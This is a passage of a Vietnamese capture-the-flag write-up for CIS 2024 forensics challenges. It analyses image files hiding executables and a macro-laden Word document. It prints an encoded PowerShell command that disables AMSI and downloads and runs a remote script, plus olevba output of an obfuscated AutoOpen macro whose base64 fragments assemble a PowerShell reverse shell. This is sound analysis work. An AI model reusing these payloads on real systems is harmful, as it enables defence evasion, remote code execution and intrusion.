- Clone nó về, mở lên, ta thấy hầu hết chung là các file ảnh 
- Viết tiếp 1 script để đổi đuôi file 
```
import os

for i in range(1, 101):

    old_file_name = str(i) + '.godefend'
    new_file_name = os.path.join(r'D:\share\CIS\OneDrive_2024-09-28 (1)\CIS 2024\sexe.zip\demo-only-main\demo-only-main\png', f"{i}.godefend.png")
    os.rename(old_file_name, new_file_name)

    print(f"Đã đổi tên '{old_file_name}' thành '{new_file_name}'")
```
- Mở lần lượt các file này ta thu được phần 1 của flag
- 
- Nhìn vào các file đã đổi tên ta thấy có 2 file không mở được 
- 
- Mở với notepad ta thấy phần đầu nó thể hiện rõ nó là 1 file exe 
- 
- Đổi đuôi và tiến hành phân tích
- Sau khi strings cả 2 file ta thấy nó tương tự nhau (thực thi 1 đoạn powershell), tuy nhiên file `32.godefend.exe` có vẻ đầy đủ hơn nên phần phân tích từ đây
```
$A1B2C3D4E5 | Out-File -FilePath $J5K6L7M8 -Encoding UTF8
Start-Process -NoNewWindow powershell "-nop -Windowstyle hidden -ep bypass -enc JABhACAAPQAgACcAUwB5AHMAdABlAG0ALgBNAGEAbgBhAGcAZQBtAGUAbgB0AC4AQQB1AHQAbwBtAGEAdABpAG8AbgAuAEEAJwA7ACQAYgAgAD0AIAAnAG0AcwAnADsAJAB1ACAAPQAgACcAVQB0AGkAbABzACcACgAkAGEAcwBzAGUAbQBiAGwAeQAgAD0AIABbAFIAZQBmAF0ALgBBAHMAcwBlAG0AYgBsAHkALgBHAGUAdABUAHkAcABlACgAKAAnAHsAMAB9AHsAMQB9AGkAewAyAH0AJwAgAC0AZgAgACQAYQAsACQAYgAsACQAdQApACkAOwAKACQAZgBpAGUAbABkACAAPQAgACQAYQBzAHMAZQBtAGIAbAB5AC4ARwBlAHQARgBpAGUAbABkACgAKAAnAGEAewAwAH0AaQBJAG4AaQB0AEYAYQBpAGwAZQBkACcAIAAtAGYAIAAkAGIAKQAsACcATgBvAG4AUAB1AGIAbABpAGMALABTAHQAYQB0AGkAYwAnACkAOwAKACQAZgBpAGUAbABkAC4AUwBlAHQAVgBhAGwAdQBlACgAJABuAHUAbABsACwAJAB0AHIAdQBlACkAOwAKAEkARQBYACgATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwBnAG8AZABlAGYAZQBuAGQALgB3AG8AcgBrAC8AdABoAGUAZgBpAG4AYQBsAC0AcwB0AGEAZwBlAC8AaQBzAC8AcAAwAHcAZQByAHMAaABlADEAbAAnACkAIwBUAGgAaQBzACAAaQBzACAAaQBuAHQAZQBuAGQAZQBkACAAdABvACAAYgBlACAAYQAgAEMAbwBtAG0AYQBuAGQAIABhAG4AZAAgAEMAbwBuAHQAcgBvAGwAIAAoAEMAJgBDACkAIABwAGEAeQBsAG8AYQBkACwAIABiAHUAdAAgAGkAdAAnAHMAIABhAGMAdAB1AGEAbABsAHkAIABqAHUAcwB0ACAAYQAgAEMAVABGACAAYwBoAGEAbABsAGUAbgBnAGUALgAgAFkAbwB1ACcAdgBlACAAcwBvAGwAdgBlAGQAIABpAHQAFCBnAHIAZQBhAHQAIABqAG8AYgAhACAARQBuAHQAZQByACAAaQB0ACAAaQBuAHQAbwAgAHQAaABlACAAKgAqACoAKgAqACoAKgAqACoAKgAgAHQAbwAgAG8AYgB0AGEAaQBuACAAdABoAGUAIABmAHUAbABsACAAZgBsAGEAZwAhAAoA"
```
- Decode base64 ta thu được phần 2 của flag
```
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u));
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static');
$field.SetValue($null,$true);
IEX(New-Object Net.WebClient).downloadString('http://godefend.work/thefinal-stage/is/p0wershe1l')#This is intended to be a Command and Control (C&C) payload, but it's actually just a CTF challenge. You've solved it great job! Enter it into the ********** to obtain the full flag!
```
> Flag :  CIS2024{sexy_h0ney_p0wershe1l}

## Tin học văn phòng 2 
### Description 
- 
### Solution
- Bài này cũng tương tự bài trên, challenge cho ta 1 file word chứa macro
- Mình sẽ sử dụng olevba để trích xuất src con macro ra 
<details>
<summary>
Đầu ra của olevba
</summary>

```
olevba 0.60.1 on Python 2.7.18 - http://decalage.info/python/oletools
===============================================================================
FILE: Tin_hoc_van_phong_2.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls 
in file: Tin_hoc_van_phong_2.doc - OLE stream: u'Macros/VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO a.bas 
in file: Tin_hoc_van_phong_2.doc - OLE stream: u'Macros/VBA/a'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sub AutoOpen()
wAIABPAH
On Error Resume Next
Dim EtreOL As Integer
EtreOL = Sgn(4063)
Dim AXIhjKC As Double
AXIhjKC = Sgn(32801.117278644)
Dim lrHmh46s As Double
lrHmh46s = Int(24509.688853716)
Dim XzindQ2B As Double
XzindQ2B = Sgn(4351.635087129)
Dim IDPje5cK As Long
IDPje5cK = Sgn(0)
Dim QvmHr96 As Integer
QvmHr96 = Sgn(4378)
Dim buxbWlSyR
buxbWlSyR = AscW("K")
wHJG4cI
cwBlAG4 = Sgn(4251.635087129)
End Sub
-------------------------------------------------------------------------------
VBA MACRO Module2.bas 
in file: Tin_hoc_van_phong_2.doc - OLE stream: u'Macros/VBA/Module2'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Option Explicit
Private Const clOneMask = 16515072
Private Const clTwoMask = 258048
Private Const clThreeMask = 4032
Private Const clFourMask = 63
Private Const clHighMask = 16711680
Private Const clMidMask = 65280
Private Const clLowMask = 255
Private Const cl2Exp18 = 262144
Private Const cl2Exp12 = 4096
Private Const cl2Exp6 = 64
Private Const cl2Exp8 = 256
Private Const cl2Exp16 = 65536
Public Function JERWafGg(sString As String) As String
    Dim bOut() As Byte, bIn() As Byte, bTrans(255) As Byte, lPowers6(63) As Long, lPowers12(63) As Long
    Dim lPowers18(63) As Long, lQuad As Long, iPad As Integer, lChar As Long, lPos As Long, sOut As String
    Dim lTemp As Long
    sString = Replace(sString, vbCr, vbNullString)
    sString = Replace(sString, vbLf, vbNullString)
    lTemp = Len(sString) Mod 4
    If lTemp Then
        Call Err.Raise(vbObjectError, "Chan ly", "Khong co gi quy hon doc lap, tu do")
    End If
    If InStrRev(sString, "==") Then
        iPad = 2
    ElseIf InStrRev(sString, "=") Then
        iPad = 1
    End If
    For lTemp = 0 To 255
        Select Case lTemp
            Case 65 To 90
                bTrans(lTemp) = lTemp - 65
            Case 97 To 122
                bTrans(lTemp) = lTemp - 71
            Case 48 To 57
                bTrans(lTemp) = lTemp + 4
            Case 43
                bTrans(lTemp) = 62
            Case 47
                bTrans(lTemp) = 63
        End Select
    Next lTemp
    For lTemp = 0 To 63
        lPowers6(lTemp) = lTemp * cl2Exp6
        lPowers12(lTemp) = lTemp * cl2Exp12
        lPowers18(lTemp) = lTemp * cl2Exp18
    Next lTemp
    bIn = StrConv(sString, vbFromUnicode)
    ReDim bOut((((UBound(bIn) + 1) \ 4) * 3) - 1)
    For lChar = 0 To UBound(bIn) Step 4
        lQuad = lPowers18(bTrans(bIn(lChar))) + lPowers12(bTrans(bIn(lChar + 1))) + _
                lPowers6(bTrans(bIn(lChar + 2))) + bTrans(bIn(lChar + 3))
        lTemp = lQuad And clHighMask
        bOut(lPos) = lTemp \ cl2Exp16
        lTemp = lQuad And clMidMask
        bOut(lPos + 1) = lTemp \ cl2Exp8
        bOut(lPos + 2) = lQuad And clLowMask
        lPos = lPos + 3
    Next lChar
    sOut = StrConv(bOut, vbUnicode)
    If iPad Then sOut = Left$(sOut, Len(sOut) - iPad)
    JERWafGg = sOut
End Function
-------------------------------------------------------------------------------
VBA MACRO Module3.bas 
in file: Tin_hoc_van_phong_2.doc - OLE stream: u'Macros/VBA/Module3'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Public Function wHJG4cI()
tSgdm = "TG9y" + "ZW0g" + "aXBz" + "dW0g"
hLibf = "AGwA" + "aQBl" + "AG4A"
Dim VJ36vB As Boolean
My3Sf
VJ36vB = True
Dim KkjJywlQ As Long
KkjJywlQ = Sgn(0)
srODz = "ZG9s" + "b3Ig" + "c2l0" + "IGFt"
VkuUa = "ZXQg" + "b2Nj" + "YWVj" + "YXQs"
Dim p4DvzQSu
p4DvzQSu = Len(WxVZ9)
Dim pjhar7 As Boolean
KjxGc = "dAAg" + "AD0A" + "IABO" + "AGUA"
pjhar7 = True
CdWOS = VoHvjkjwsjn + hLibf + KjxGc
PcmzG = "dwAt" + "AE8A" + "YgBq" + "AGUA"
Dim G3Ro216W As Long
xQuNL = "IHZv" + "bHVw" + "dGF0" + "ZSBl"
G3Ro216W = Sgn(0)
Dim S6GMh
S6GMh = RTrim(t4z5nM)
Oinet = "YwB0" + "ACAA" + "UwB5" + "AHMA"
Dim IazBkW As Double
IazBkW = Round(38126.869379475)
XWzxo = "dSB0" + "ZW1w" + "b3Ig" + "Y29u"
Dim PitNFfg2k As Long
PitNFfg2k = Sgn(-49477692)
wDQuE = "c2Vj" + "dGV0" + "dXIg" + "cXVp"
Dim O7WK4 As String
O7WK4 = StrConv(RB125kvm, vbProperCase)
Dim R5XDIfM As Boolean
AGZug = "IHBh" + "cmlh" + "dHVy" + "IHZl"
wGrQx = "bmlh" + "bSBj" + "b25z" + "ZWN0"
xiuKi = PcmzG + Oinet
JGxJk = "ZXR1" + "ciBh" + "bGlx" + "dWEg"
DIKyl = CdWOS + xiuKi
bbkDJ = "dABl" + "AG0A" + "LgBO" + "AGUA"
R5XDIfM = True
jPHmg = "YWxp" + "cXVp" + "cCBm" + "dWdp"
Dim QYq4uXhbU As Double
QYq4uXhbU = Int(41688.278908556)
Dim Vjmp7t8C As Byte
xUbhD = "dAAu" + "AFMA" + "bwBj" + "AGsA"
Vjmp7t8C = 75
JMKjw = "YXQg" + "Y29u" + "c2Vj" + "dGV0"
MYJxz = "ZQB0" + "AHMA" + "LgBU" + "AEMA"
PUSES = "UABD" + "AGwA" + "aQBl" + "AG4A"
ENUJX = "dXIg" + "ZG9s" + "b3Jl" + "IGRl"
Dim XR2Nmb As String
hUgpd = "c2Vy" + "dW50" + "LiBB" + "bGlx"
OXtYC = bbkDJ + xUbhD + MYJxz + PUSES
Dim cp4MKrP
tRTso = DIKyl + OXtYC
Ynbfg = "dAAo" + "ACcA" + "MQA5" + "ADIA"
cp4MKrP = AscW("6")
Dim VYM04Zge As Single
XrWag = "dWlw" + "IGVh" + "IGFt" + "ZXQg"
VYM04Zge = Sgn(37318.616981113)
XGtDu = "cGFy" + "aWF0" + "dXIg" + "Y3Vs"
snfir = "LgAx" + "ADYA" + "OAAu" + "ADQA"
BpFXG = "cGEg" + "ZXN0" + "IGNp" + "bGx1"
Dim djaSGRFZI As Integer
lEUoc = "bSBk" + "b2xv" + "cmUu" + "IEVu"
djaSGRFZI = Sgn(1516)
Dim q1f0qCp As Single
TmvWE = "aW0g" + "ZXNz" + "ZSBw" + "YXJp"
q1f0qCp = Round(4009.623786555)
lZTlp = "OQAu" + "ADUA" + "NAAn" + "ACwA"
Dim hiIHp As Byte
lnUCu = "NAA5" + "ADUA" + "MwAp" + "ADsA"
hiIHp = 192
Dim K8KJB
K8KJB = Asc("W")
ktUlb = "JABz" + "AHQA" + "cgBl" + "AGEA"
Dim zUNgPs As String
zUNgPs = Val("1")
gjbMI = "YXR1" + "ciBx" + "dWlz" + "IGFt"
BVPgh = "bQAg" + "AD0A" + "IAAk" + "AGMA"
Dim gcAoi As Single
gcAoi = Round(59714.657350132)
fymIg = "ZXQg" + "ZXN0" + "IGFs" + "aXF1"
bFOER = "YSBj" + "b21t" + "b2Rv" + "IGV4"
Dim d4Uvh5sfd As Double
KPYsX = "bABp" + "AGUA" + "bgB0" + "AC4A"
YTMgo = "RwBl" + "AHQA" + "UwB0" + "AHIA"
d4Uvh5sfd = 12254.492526382
gHgBO = Ynbfg + snfir + lZTlp + lnUCu
yPBRZ = ktUlb + BVPgh + KPYsX + YTMgo
Dim IdLryRE As Single
ijanE = "IG51" + "bGxh" + "IGFs" + "aXF1"
VPccP = "YSBl" + "c3Qg" + "b2Nj" + "YWVj"
IdLryRE = 39526.040145271
Dim neuwL902 As Boolean
neuwL902 = True
Dim hjbkVMY5Q As Integer
hjbkVMY5Q = Sgn(-10547)
JCRiY = tRTso + gHgBO + yPBRZ
Dim BKQimPe As Boolean
BKQimPe = False
SuVlh = "ZQBh" + "AG0A" + "KAAp" + "ADsA"
LgTsg = "YXQg" + "bm9u" + "LiBO" + "aXNp"
Dim ophN8q As Single
ophN8q = Int(12812.555467749)
Dim MMLcDS As Integer
MMLcDS = Sgn(22029)
ixfER = "IGVu" + "aW0g" + "Y3Vs" + "cGEg"
Dim VZymHn As Single
sMZhB = "YWxp" + "cXVh" + "IHJl" + "cHJl"
XBmcg = "aGVu" + "ZGVy" + "aXQg" + "ZnVn"
VZymHn = 4752.5243361027
Dim lnSUl As Integer
lnSUl = Sgn(-2472)
KPtfW = "WwBi" + "AHkA" + "dABl" + "AFsA"
Dim VW0kh As String
kkyGw = "XQBd" + "ACQA" + "YgB5" + "AHQA"
VW0kh = StrConv(DDy2H, vbUpperCase)
WSaKN = "aWF0" + "IG1h" + "Z25h" + "IG1p"
Dim GjlhPx6wR As Integer
eDgkE = "ZQBz" + "ACAA" + "PQAg" + "ADAA"
CniQp = "bmlt" + "IG5p" + "c2kg" + "bWFn"
GjlhPx6wR = Sgn(-13033)
Dim CKb98ar As Double
CKb98ar = Val(39821.773799905)
Dim nBRLw5Ecl As String
ZDxKv = "LgAu" + "ADYA" + "NQA1" + "ADMA"
nBRLw5Ecl = AscB("I")
mRnsY = "NQB8" + "ACUA" + "ewAw" + "AH0A"
Dim uUbHdia3S As Long
YvOYT = "OwB3" + "AGgA" + "aQBs" + "AGUA"
RKRwk = "KAAo" + "ACQA" + "aQAg" + "AD0A"
oWvfR = "bmEg" + "bGFi" + "b3J1" + "bSBl"
ElVRzdJ = SuVlh + KPtfW + kkyGw + eDgkE + ZDxKv + mRnsY
uUbHdia3S = Sgn(-1771651650)
Dim Tpx0937hq As Byte
Tpx0937hq = 93
Dim rUfBh5 As Byte
rUfBh5 = 228
Dim mDfIxqylk As Single
kcKvX = "bGl0" + "IGV4" + "Y2Vw" + "dGV1"
mDfIxqylk = Int(57162.289458401)
NYSDI = "ciBj" + "dWxw" + "YSBh" + "bWV0"
ltY2ht = ElVRzdJ + YvOYT + RKRwk
Dim aPs2IQrh As Long
aPs2IQrh = -1454289178
Dim kopVl8dn As String
wAoFe = "IAAk" + "AHMA" + "dABy" + "AGUA"
kopVl8dn = vbNullString
Dim f4WmO As Double
VpwGN = "YQBt" + "AC4A" + "UgBl" + "AGEA"
f4WmO = Sgn(62027.440542772)
Dim cCdjUFDJ As Single
cCdjUFDJ = 57050.029296983
Dim VCms6lt As Double
Yyard = "IGZ1" + "Z2lh" + "dCBl" + "bmlt"
WujOG = "IHV0" + "IGlk" + "IGNv" + "bnNl"
UEsxN = "ZAAo" + "ACQA" + "YgB5" + "AHQA"
VCms6lt = Round(44521.60452642)
wDmOx = "ZQBz" + "ACwA" + "IAAw" + "ACwA"

snZrU = "IAAk" + "AGIA" + "eQB0" + "AGUA"
Dim dJWXqHeUE As Byte
VbXlsSE = wAoFe + VpwGN + UEsxN + wDmOx + snZrU
dJWXqHeUE = 164
Dim dPi1cQM As Boolean
dPi1cQM = False
DMewS = "cXVh" + "dC4g" + "VmVs" + "aXQs"
BGNrU = "cwAu" + "AEwA" + "ZQBu" + "AGcA"
Dim CXaqsAV
CXaqsAV = Val(LFn4qN)
Dim m8Eet As Long
tjetQ = "IG1h" + "Z25h" + "IGR1" + "aXMg"
m8Eet = -801134814
Dim JuBNorbc As Boolean
sTKLZ = "dABo" + "ACkA" + "KQAg" + "AC0A"
JuBNorbc = True
Uexxb = "bgBl" + "ACAA" + "MAAp" + "AHsA"
Dim BBpmrR9kP
BSmAx = "bm9z" + "dHJ1" + "ZCBj" + "dXBp"
BBpmrR9kP = Len(p9gjZyBs)
Dim bYvIm As Double
AJgIq = "ZGF0" + "YXQg" + "bnVs" + "bGEg"
bYvIm = 40246.657464896
Dim Uy2uQtw8 As Integer
WKvex = "OwAk" + "AGQA" + "YQB0" + "AGEA"
Uy2uQtw8 = 17504
Dim JMfa6ud
JvVzr = "IAA9" + "ACAA" + "KABO" + "AGUA"
XMEJL = "dwAt" + "AE8A" + "YgBq" + "AGUA"
oaxOV = "bW9s" + "bGl0" + "IG5v" + "c3Ry"
jFKVE = BGNrU + sTKLZ + Uexxb + WKvex + JvVzr + XMEJL
NjRlJI = JCRiY + ltY2ht + VbXlsSE + jFKVE
fnSvy = "dWQg" + "YW5p" + "bSBl" + "YSBm"
JMfa6ud = Asc("O")
Dim HLYbCEi As Byte
ByDPj = "YwB0" + "ACAA" + "LQBU" + "AHkA"
HLYbCEi = 252
SsjOW = "cABl" + "AE4A" + "YQBt" + "AGUA"
Dim v4A30J As Long
v4A30J = Sgn(-1028146452)
ZLXxE = "IABT" + "AHkA" + "cwB0" + "AGUA"
PsnWo = "bQAu" + "AFQA" + "ZQB4" + "AHQA"
Dim LLc2yDwW As Long
PlJpL = "dWdp" + "YXQg" + "dXQg" + "Y29u"
CQiQc = "LgBB" + "AFMA" + "QwBJ" + "AEkA"
LLc2yDwW = Sgn(0)
Dim YVqjg6f As Integer
YVqjg6f = Sgn(9874)
RRGJW = ByDPj + SsjOW + ZLXxE + PsnWo + CQiQc
Dim HXwDT As Single
hISZd = "RQBu" + "AGMA" + "bwBk" + "AGkA"
iFmVy = "c2Vj" + "dGV0" + "dXIu" + "CgpB"
HXwDT = Sgn(53207.28219526)
Dim PSM72pR As Integer
PSM72pR = -26157
RFXJS = "bWV0" + "IHNp" + "bnQg" + "bWFn"
hYLEL = "bmEg" + "ZXgg" + "aXJ1" + "cmUg"
Dim h3mQoG6Nu As Double
h3mQoG6Nu = Sgn(61756.107914172)
Dim Jkts1wB3S As Long
lCCOp = "cXVp" + "IGVp" + "dXNt" + "b2Qg"
Jkts1wB3S = -837209688
Dim jrKMDcly8 As Boolean
jrKMDcly8 = False
Dim t6kYxU7JB As Byte
t6kYxU7JB = 199
Dim nlUg8rRQ As Long
nlUg8rRQ = 0
Dim pDEr4pi6u
pDEr4pi6u = LCase(QtPwe)
YHWdH = "bgBn" + "ACkA" + "LgBH" + "AGUA"
Dim tZXRcg As Byte
CVKvB = "dXQg" + "ZGVz" + "ZXJ1" + "bnQg"
tZXRcg = 22
Dim LRExe As Long
LRExe = -32131474
GvNIR = "aW5j" + "aWRp" + "ZHVu" + "dCBv"
AuXvK = "ZmZp" + "Y2lh" + "LiBF" + "YSBM"
Dim fHRkT As Byte
Cpoqg = "dABT" + "AHQA" + "cgBp" + "AG4A"
fHRkT = 77
zgslX = "b3Jl" + "bSBu" + "b3N0" + "cnVk"
DuxPg = "IG9m" + "Zmlj" + "aWEg" + "YWRp"
toUjz = "cGlz" + "aWNp" + "bmcg" + "Y29u"
Dim eYduk As Byte
ieEmZ = "c2Vj" + "dGV0" + "dXIg" + "aXBz"
fcvmM = "ZwAo" + "ACQA" + "YgB5" + "AHQA"
ZZlbf = "ZQBz" + "ACwA" + "MAAs" + "ACAA"
d2dKZE = hISZd + YHWdH + Cpoqg + fcvmM + ZZlbf
eYduk = 61
Dim FYk6qz As Integer
FYk6qz = Sgn(-26344)
Dim KpMQTw As Boolean
xpyxs = "JABp" + "ACkA" + "OwAk" + "AHMA"
KpMQTw = True
rIcxM = "ZQBu" + "AGQA" + "YgBh" + "AGMA"
AbTlL = "awAg" + "AD0A" + "IAAo" + "AGkA"
Dim BtX8d2SC As Long
XamxD = "ZQB4" + "ACAA" + "JABk" + "AGEA"
BtX8d2SC = Sgn(-2069735070)
LMEvY = "dABh" + "ACAA" + "MgA+" + "ACYA"
Z2xrT = xpyxs + rIcxM + AbTlL + XamxD + LMEvY
gSTTo = "dW0g" + "ZXUg" + "YWxp" + "cXVp"
ljdVRY = RRGJW + d2dKZE
Dim zbuKhV As Boolean
zbuKhV = False
Dim qcU5wSY2e As Single
aR3lq = NjRlJI + ljdVRY + Z2xrT
MhfcS = "MQAg" + "AHwA" + "IABP" + "AHUA"
PsqwB = "dAAt" + "AFMA" + "dABy" + "AGkA"
qcU5wSY2e = 12038.593440638
Dim z3BRsK0 As Double
z3BRsK0 = Fix(5971.6655869863)
Dim wdaUs8fI As Single
wdaUs8fI = Fix(10216.556648797)
Dim TzUP3 As Single
cOIoS = "bgBn" + "ACAA" + "KQA7" + "ACQA"
TzUP3 = Sgn(25217.407108342)
Dim P8gGokmVW As Single
P8gGokmVW = Sgn(48265.713970413)
Dim RWELQb As Long
PtPmN = "cwBl" + "AG4A" + "ZABi" + "AGEA"
RWELQb = -1382011526
bkpDV = aR3lq + MhfcS + PsqwB + cOIoS + PtPmN
Dim ljeOYL As Boolean
ljeOYL = False
Dim iZvYI28On As Integer
iZvYI28On = -2330
Dim fby2jtv As Integer
fby2jtv = -18219
QmZeB = "cC4g" + "SWQg" + "ZWxp" + "dCBt"
Dim DuGhMpJ5 As Single
fjSjX = "YwBr" + "ADIA" + "IAA9" + "ACAA"
DuGhMpJ5 = Sgn(27833.296005192)
ZOVlZ = "JABz" + "AGUA" + "bgBk" + "AGIA"
Dim zbeIcwkd As Integer
zbeIcwkd = 5054
TgsZO = "YQBj" + "AGsA" + "IAAr" + "ACAA"
Dim oIw1oOs As Single
oIw1oOs = Sgn(11060.792385788)
Dim ocGLhv As Double
ocGLhv = 22418.374089479
CFLJo = "JwBQ" + "AFMA" + "IAAn" + "ACAA"
whjfk = "KwAg" + "ACgA" + "cAB3" + "AGQA"
pFYyx = "YWdu" + "YSB1" + "dCBk" + "dWlz"
JJTEQ = "LCBu" + "aXNp" + "IExv" + "cmVt"
Dim KJfKc As Double
KJfKc = 7055.3106717351
pVZDF = fjSjX + ZOVlZ + TgsZO + CFLJo + whjfk
cPnAy = "KQAu" + "AFAA" + "YQB0" + "AGgA"
Dim j8FWPmr
RVTcD = "IG1p" + "bmlt" + "IGFs" + "aXF1"
j8FWPmr = LTrim(lWKIY)
eHtUH = "IAAr" + "ACAA" + "JwBD" + "AEkA"
Dim wlqbJgQd5 As Boolean
cCSvm = "UwAy" + "ADAA" + "MgA0" + "AHsA"
wlqbJgQd5 = False
Dim H0FCEtIA As Integer
H0FCEtIA = 15089
Dim UUKvz As Boolean
UUKvz = False
Dim v9hXK As Boolean
ilRrN = "VABp" + "AG4A" + "XwBo" + "AG8A"
GakSD = "YwBf" + "AHYA" + "YQBu" + "AF8A"
TGN6Q = cPnAy + eHtUH + cCSvm + ilRrN + GakSD
v9hXK = False
IwiAK = "YSBp" + "bmNp" + "ZGlk" + "dW50"
Dim VYVIFXTil As Long
VYVIFXTil = Sgn(-1945588646)
uPaXs = "cABo" + "AG8A" + "bgBn" + "AF8A"
Dim mEBne As Integer
xxcOR = "bgBl" + "AHYA" + "YQBf" + "AGQA"
mEBne = -1000
Dim g1OvtUoD As Boolean
g1OvtUoD = True
Dim OxhT4Y58 As Double
OxhT4Y58 = 65180.672817434
QarqD = "aQBl" + "AH0A" + "PgAg" + "ACcA"
TTkUL = "IGV0" + "IG5p" + "c2kg" + "Y29t"
Dim wL27osqm As String
wL27osqm = Len(ZQ5H4y)
Dim MgPsK As Boolean
MgPsK = False
TpIRk = "OwAk" + "AHMA" + "ZQBu" + "AGQA"
Dim Zkts6dOwj As Double
Zkts6dOwj = Sgn(50035.064186835)
afdCT = "bW9k" + "byBl" + "dCBj" + "aWxs"
Dim XAcn2 As String
ijxwX = "YgB5" + "AHQA" + "ZQAg" + "AD0A"
XAcn2 = Trim(cHGFt5MT)
Dim G6Zau As Byte
x0YlF = uPaXs + xxcOR + QarqD + TpIRk + ijxwX
R1NHM = bkpDV + pVZDF + TGN6Q + x0YlF
G6Zau = 123
CojTG = "dW0u" + "IE9j" + "Y2Fl" + "Y2F0"
byBLA = "IAAo" + "AFsA" + "dABl" + "AHgA"
Dim bI3MKsQ As Single
CDsNy = "IGR1" + "aXMg" + "b2Zm" + "aWNp"
bI3MKsQ = Sgn(64730.069329357)
Dim oc1jS As Long
UikkC = "dAAu" + "AGUA" + "bgBj" + "AG8A"
oc1jS = -1176180570
QabtP = "YSBl" + "eGVy" + "Y2l0" + "YXRp"
Dim HIBfgm As Byte
HIBfgm = 98
RBJvl = "ZABp" + "AG4A" + "ZwBd" + "ADoA"
Dim TpGL5y9 As Single
TpGL5y9 = 24026.077689694
Dim Ec7QsJLh As Integer
Ec7QsJLh = Sgn(4700)
Dim Osp29 As Long
FrLRJ = "b24g" + "aXBz" + "dW0g" + "bWlu"
Osp29 = 0
Dim IEKb5B
IEKb5B = vbNullString
YPsuX = "aW0g" + "ZG9s" + "b3Jl" + "IGlw"
ijVhE = "c3Vt" + "IGly" + "dXJl" + "IHNp"
pRqIr = "OgBB" + "AFMA" + "QwBJ" + "AEkA"
VPBse = "KQAu" + "AEcA" + "ZQB0" + "AEIA"
bGQzY3 = byBLA + UikkC + RBJvl + pRqIr + VPBse
JJSjQ = "eQB0" + "AGUA" + "cwAo" + "ACQA"
RYVqE = "bnQs" + "IHZl" + "bGl0" + "IGFk"
AIuMs = "aXBp" + "c2lj" + "aW5n" + "IHF1"
HAvJy = "aXMg" + "ZWxp" + "dCB1" + "dCBl"
Dim pOjSQr As Byte
pOjSQr = 223

Dim cHglGXfEZ As Boolean
mRpBZ = "aXVz" + "bW9k" + "IGV1" + "IGFk"
cHglGXfEZ = False
Dim ed4gJw As Integer
ed4gJw = -29609
Dim fTyU6v As Byte
fTyU6v = 142
pFlIo = "cwBl" + "AG4A" + "ZABi" + "AGEA"
Dim zSagFKU As Double
XzmkS = "aXBp" + "c2lj" + "aW5n" + "IHV0"
zSagFKU = 29267.663714125
AWAKv = "YwBr" + "ADIA" + "KQA7" + "ACQA"
Dim hphr2X As Single
RPdyS = "cwB0" + "AHIA" + "ZQBh" + "AG0A"
hphr2X = Sgn(48809.220859081)
gxrmw = "IGV4" + "IGFk" + "LiBM" + "YWJv"
JhBoL = "LgBX" + "AHIA" + "aQB0" + "AGUA"
Dim RkSKa8W2 As Long
RkSKa8W2 = -1062532970
Dim znDw0YU As Double
EPRsW = "cnVt" + "IGlu" + "IHNp" + "dCBl"
znDw0YU = 37401.277251592
Z0dnOW = JJSjQ + pFlIo + AWAKv + RPdyS + JhBoL
Dim OMPgOEDld As Long
NjJNq = "eGNl" + "cHRl" + "dXIg" + "ZW5p"
kljAd = "KAAk" + "AHMA" + "ZQBu" + "AGQA"
OMPgOEDld = Sgn(-1795197112)
GBGgZ = "bSBp" + "cHN1" + "bSBl" + "eGVy"
QiIzg = "Y2l0" + "YXRp" + "b24g" + "Y2ls"
Dim hWX49qI As Integer
shxwb = "YgB5" + "AHQA" + "ZQAs" + "ADAA"
CiACq = "LAAk" + "AHMA" + "ZQBu" + "AGQA"
ityon = "YgB5" + "AHQA" + "ZQAu" + "AEwA"
hWX49qI = 23810
JAIli = "ZQBu" + "AGcA" + "dABo" + "ACkA"
brQpW = "bHVt" + "IExv" + "cmVt" + "IGlu"
Dim C7hrqJR As Double
RFriR = "Y2lk" + "aWR1" + "bnQg" + "bGFi"
C7hrqJR = Sgn(38378.322611166)
zdXRkt = kljAd + shxwb + CiACq + ityon + JAIli
Q0ZMdz = Z0dnOW + zdXRkt
Dim o14xvDEqn As Single
o14xvDEqn = 47515.262113766
Dim V3ziJoh As String
V3ziJoh = Len(SwmES56l)

Dim cwfhbWQS As Boolean
cwfhbWQS = False
czbUl = bGQzY3 + Q0ZMdz
JPqmr = "b3Jp" + "cyB1" + "bGxh" + "bWNv"
Dim mmEjCn As Boolean
mmEjCn = False
Dim nC6U5 As Single
BxFoB = "IG5p" + "c2kg" + "YW1l" + "dCB2"
nC6U5 = Val(1020.7522896383)
Dim xCa8DAm As Long
xCa8DAm = -1533688048
osLCu = "ZWxp" + "dCBy" + "ZXBy" + "ZWhl"
Dim D2hRsXr As Long
IjFid = "bmRl" + "cml0" + "IG5v" + "c3Ry"
D2hRsXr = 0
jBXdXl = R1NHM + czbUl
BpIbv = "dWQg" + "bGFi" + "b3J1" + "bSBj"
Dim AWm5YI As Single
AWm5YI = Fix(28000.069832119)
DsRLw = "b21t" + "b2Rv" + "IGN1" + "cGlk"
KmeaN = "OwAk" + "AHMA" + "dABy" + "AGUA"
Dim qxz6d As Single
cwMtq = "YQBt" + "AC4A" + "RgBs" + "AHUA"
qxz6d = 29462.588357383
Dim tnrCg4 As String
GaDRD = "ACgA" + "KQB9" + "ADsA"
tnrCg4 = UCase(j29C4)
Dim qn0BhzkU As Integer
qn0BhzkU = -31510
jqGyn = "YXRh" + "dCBM" + "b3Jl" + "bSBw"
Dim nfKuR As Integer
nfKuR = -25341
Dim hRIOYu0P As Long
xPYjM = "JABj" + "AGwA" + "aQBl" + "AG4A"
VjEqW = "YXJp" + "YXR1" + "ci4g" + "RWEg"
YNZPh = "dAAu" + "AEMA" + "bABv"
hRIOYu0P = -1477310318
Dim gE6Pop As String
EqfRT = "YXV0" + "ZSBp" + "cHN1" + "bSBj"
gE6Pop = UCase(u83KtkuUM)
Dim f7XBS As Integer
f7XBS = Sgn(-16451)
